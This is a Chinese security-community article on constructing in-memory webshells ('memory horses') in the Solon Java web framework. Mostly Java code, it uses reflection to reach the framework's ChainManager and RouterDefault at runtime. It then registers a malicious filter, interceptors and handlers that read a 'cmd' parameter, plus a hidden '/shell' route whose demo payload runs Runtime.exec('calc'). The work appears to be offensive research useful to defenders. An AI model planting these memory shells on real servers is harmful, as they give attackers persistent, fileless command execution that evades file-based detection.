# Solon内存马构造-先知社区

> **来源**: https://xz.aliyun.com/news/16465  
> **文章ID**: 16465

---

**简介**  
Solon是Java “新的”应用开发框架，类似Spring boot ，号称Java “纯血国产”应用开发框架，面向全场景的 Java 应用开发框架：克制、高效、开放、生态。  
官网地址：<https://solon.noear.org>  
通过官网提供的案例快速搭建，下载<https://solon.noear.org/start/build.do?artifact=helloworld_jdk8&project=maven&javaVer=1.8安装包导入idea即可：>



因为是构造内存马，所以必须得了解整个请求处理过程，如下是官网提供的图：


可以看到Web处理会经过四个路段：过滤器（Filter）->路由拦截器(RouterInterceptor)->处理器(Handler)->拦截器(Interceptor)，下面从Filter和Handler两个方面入手构造一下内存马（RouterInterceptor的构造与Filter的构造类似）  
首先实现简单Filter只在后台打印信息:



从debug信息来看this.filterNodes中已经存储了自定义的filter信息：



看add这个filter信息的方法在哪里，可以看到这个filterNodes是ChainManager的一个属性，跟进ChainManager中，可以看到有定义了addFilter和addFilterIfAbsent，在addFilter中下断，重新执行程序发现可以断点：



addFilter中传参，第一个为自定义的filter，第二个为index  
那到此，只要能获取到内存中的ChainManager对象就可以调用该方法了，使用java-object-searcher <https://github.com/c0ny1/java-object-searcher> 编写代码：

```
List<Keyword> keys = new ArrayList<>();  
keys.add(new Keyword.Builder().setField_type("_chainManager").build());  
SearchRequstByBFS searcher = new SearchRequstByBFS(Thread.currentThread(),keys);  
searcher.setIs_debug(true);  
searcher.setMax_search_depth(20);  
searcher.setReport_save_path("C:\\Users\\XXX\\Desktop\\demo");  
searcher.searchObject();

```



这里注意到org.noear.solon.boot.smarthttp.http.SmHttpContext这个对象，这实际上就是官网上提供的可以通过

```
Context ctx = Context.current();

```

获取的请求上下文对象：



那接下来就简单了，直接用请求上下文对象再反射调用到ChainManager即可。  
代码：

```
@Mapping("/addfiltermemshell")
    public String addFiltermemshell() throws Exception {
        Context context = Context.current();
        Class<?> superclass = context.getClass().getSuperclass().getSuperclass();
        Field attrMap = superclass.getDeclaredField("attrMap");
        attrMap.setAccessible(true);
        Map o = (Map) attrMap.get(context);

        Object actiondefault = o.get("ATTR_MAIN_HANDLER");
        Class<?> aClass = actiondefault.getClass();
        Field bWrap = aClass.getDeclaredField("bWrap");
        bWrap.setAccessible(true);
        Object o1 = bWrap.get(actiondefault);

        Class<?> aClass1 = o1.getClass();
        Field context1 = aClass1.getDeclaredField("context");
        context1.setAccessible(true);
        Object o2 = context1.get(o1);

        Class<?> aClass2 = o2.getClass().getSuperclass();
        Field app = aClass2.getDeclaredField("app");
        app.setAccessible(true);
        Object o3 = app.get(o2);

        Class<?> aClass3 = o3.getClass().getSuperclass();
        Field chainManager = aClass3.getDeclaredField("_chainManager");
        chainManager.setAccessible(true);
        ChainManager o4 = (ChainManager) chainManager.get(o3);
         o4.addFilter(new EvilFilter(),0);

        return "Filtermemshell add successfully!";
    }

```

恶意Filter:

```
public class EvilFilter implements Filter {
    @Override
    public void doFilter(Context ctx, FilterChain chain) throws Throwable {
        System.out.println("this is a evilfilter!");
        chain.doFilter(ctx);
    }
}

```

这里没有加@Component，避免被直接加载





在获取到ChainManager后，也可以调用其他接口RouterInterceptor、ActionExecuteHandler、ActionReturnHandler去注册，



这里照着官方文档写出恶意实现类，注册逻辑基本一样，不单独列出了：  
EvilActionReturnHandler：

```
public class EvilActionReturnHandler implements ActionReturnHandler {
    @Override
    public boolean matched(Context ctx, Class<?> returnType) {

        return true;
    }

    @Override
    public void returnHandle(Context ctx, Action action, Object returnValue) throws Throwable {
        String cmd = ctx.param("cmd");//传参
        //具体逻辑
    }
}

```

EvilActionExecuteHandler:

```
public class EvilActionExecuteHandler implements ActionExecuteHandler {
    @Override
    public boolean matched(Context ctx, String mime) {

        String cmd = ctx.param("cmd");
        //具体逻辑
//        Runtime.getRuntime().exec("cmd")
        return false;
    }

    @Override
    public Object[] resolveArguments(Context ctx, Object target, MethodWrap mWrap) throws Throwable {
        return new Object[0];
    }

    @Override
    public Object executeHandle(Context ctx, Object target, MethodWrap mWrap) throws Throwable {
        return null;
    }
}

```

EvilRouterInterceptor:

```
public class EvilRouterInterceptor implements RouterInterceptor {
    @Override
    public PathRule pathPatterns() {
        return new PathRule().include("/cmd");
    }

    @Override
    public void doIntercept(Context ctx, Handler mainHandler, RouterInterceptorChain chain) throws Throwable {
        String cmd = ctx.param("cmd");
        //具体逻辑
        chain.doIntercept(ctx,mainHandler);
    }

}

```

下面回头来看一下，路由的值是如何与Controller匹配的  
在其中一个路由处打上断点，翻下调用栈发现了存储路由的变量：


可以看到是一个RouterDefault内的一个table变量承载这些信息，直接跟进到RouterDefault定义，发现有很多添加相关的函数add，索性把全部add函数都打上断点，然后重新运行一下：



发现最终是调用org.noear.solon.core.route.RouterDefault#add(java.lang.String, org.noear.solon.core.handle.MethodType, int, org.noear.solon.core.handle.Handler)去添加



那么可以通过java-object-searcher直接获取这个变量，调用其add接口，或者再反射调用table变量直接add添加，这里就直接调用add接口，这里参数MethodType和Handler，MethodType传MethodType.ALL，Handler在这里的实现类是ActionDefault，其构造方法需要BeanWrap对象和恶意类的Method对象，这里可以是实现类的某个具体方法：





BeanWrap的构造方法：



这里的context也可以通过请求上下文获取



那么逻辑就清晰了，将上述对象构造完，再调用刚才的add接口即可，使用java-object-searcher搜索



这里可以看到直接搜到了AppContext和RouterDefault变量，那么接下来代码实现：

```
@Mapping("/addcontrollermemshell")
    public String addcontrollermemshell() throws NoSuchFieldException, IllegalAccessException, NoSuchMethodException {

        Context context = Context.current();
        Class<?> superclass = context.getClass().getSuperclass().getSuperclass();
        Field attrMap = superclass.getDeclaredField("attrMap");
        attrMap.setAccessible(true);
        Map o = (Map) attrMap.get(context);

        Object actiondefault = o.get("ATTR_MAIN_HANDLER");
        Class<?> aClass = actiondefault.getClass();
        Field bWrap = aClass.getDeclaredField("bWrap");
        bWrap.setAccessible(true);
        Object o1 = bWrap.get(actiondefault);

        Class<?> aClass1 = o1.getClass();
        Field context1 = aClass1.getDeclaredField("context");
        context1.setAccessible(true);
        AppContext o2 = (AppContext) context1.get(o1);

        Class<?> aClass2 = o2.getClass().getSuperclass();
        Field app = aClass2.getDeclaredField("app");
        app.setAccessible(true);
        Object o3 = app.get(o2);

        Class<?> aClass3 = o3.getClass().getSuperclass();
        Field chainManager = aClass3.getDeclaredField("_router");
        chainManager.setAccessible(true);
        RouterDefault o4 = (RouterDefault) chainManager.get(o3);


        BeanWrap beanWrap = new BeanWrap(o2,Evil.class);
        Method shell = Evil.class.getDeclaredMethod("shell");
        ActionDefault actionDefault = new ActionDefault(beanWrap,shell);
        o4.add("/shell",MethodType.ALL,0,actionDefault);

        return "controllermemshell added successfully!";
    }

Evil类：
public class Evil {
    public void shell() throws IOException {
        Runtime.getRuntime().exec("calc");
        //具体逻辑
    }
}

```



  
参考：  
<https://xz.aliyun.com/t/15273?time__1311=GqjxnD0D2DRDcDIx05bfDyD1GCiALRKuGhpD>
